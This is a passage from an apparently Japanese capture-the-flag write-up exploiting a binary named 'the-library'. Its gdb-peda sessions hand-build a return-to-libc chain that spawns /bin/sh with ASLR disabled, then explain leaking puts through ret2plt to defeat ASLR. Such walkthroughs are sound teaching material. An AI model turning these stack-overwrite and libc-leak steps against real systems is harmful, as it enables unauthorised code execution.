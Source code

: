```bash
0016| 0x7ffffffed6d8 --> 0x7ffffffed7a8 --> 0x7ffffffed9d7 ("/the-library")
0024| 0x7ffffffed6e0 --> 0x100008000
0032| 0x7ffffffed6e8 --> 0x400637 --> 0x10ec8348e5894855
0040| 0x7ffffffed6f0 --> 0x0
0048| 0x7ffffffed6f8 --> 0xa26c62ed37ded563
0056| 0x7ffffffed700 --> 0x400550 --> 0x89485ed18949ed31
[------------------------------------------------------------------------------]
~~~
gdb-peda$ set *0x7ffffffed6c8 = 0x00400734
gdb-peda$ set *0x7ffffffed6cc = 0x00000000
gdb-peda$ set *0x7ffffffed6d0 = 0x00400733
gdb-peda$ set *0x7ffffffed6d4 = 0x00000000
gdb-peda$ set *0x7ffffffed6d8 = 0xff1b3e9a
gdb-peda$ set *0x7ffffffed6dc = 0x00007fff
gdb-peda$ set *0x7ffffffed6e0 = 0xff04f440
gdb-peda$ set *0x7ffffffed6e4 = 0x00007fff
gdb-peda$ stack
0000| 0x7ffffffed6c8 --> 0x400734 --> 0x841f0f2e6690c3
0008| 0x7ffffffed6d0 --> 0x400733 --> 0x841f0f2e6690c35f
0016| 0x7ffffffed6d8 --> 0x7fffff1b3e9a --> 0x68732f6e69622f ('/bin/sh')
0024| 0x7ffffffed6e0 --> 0x7fffff04f440 (<__libc_system>:       test   rdi,rdi)
0032| 0x7ffffffed6e8 --> 0x400637 --> 0x10ec8348e5894855
0040| 0x7ffffffed6f0 --> 0x0
0048| 0x7ffffffed6f8 --> 0xa26c62ed37ded563
0056| 0x7ffffffed700 --> 0x400550 --> 0x89485ed18949ed31
gdb-peda$ c
Continuing.
[New process 5037]
process 5037 is executing new program: /bin/dash
[New process 5038]
process 5038 is executing new program: /bin/dash
$
```
シェルが得られたがこれはASLRが無効な場合である。  
gdbは`set disable-randomization off`で有効にすることができる。  
以下が有効にした場合である(gdb起動まで上に同じ)。  
```bash
~~~
gdb-peda$ set disable-randomization off
gdb-peda$ start
gdb-peda$ p system
$1 = {int (const char *)} 0x7fd96104f440 <__libc_system>
gdb-peda$ start
gdb-peda$ p system
$2 = {int (const char *)} 0x7fd4ac04f440 <__libc_system>
gdb-peda$ start
gdb-peda$ p system
$3 = {int (const char *)} 0x7f327ea4f440 <__libc_system>
```
アドレスが変動していることがわかる。  
現実問題としてASLRがあるためsystemのアドレスを決定できない。  
しかし、メイン内で呼ばれているputsを利用することによりアドレスを求めることができる。  
libc.so.6のputsのオフセットをret2pltで出力した解決済みputsアドレスから減じることでlibcのベースが得られる。  
そこにlibc.so.6のsystemのオフセットを足せばよい。  
getsも使う。  
必要なアドレスを集める。  
```bash
$ gdb the-library
gdb-peda$ disass puts
Dump of assembler code for function puts@plt:
   0x0000000000400520 <+0>:     jmp    QWORD PTR [rip+0x200af2]        # 0x601018
   0x0000000000400526 <+6>:     push   0x0
   0x000000000040052b <+11>:    jmp    0x400510
End of assembler dump.
```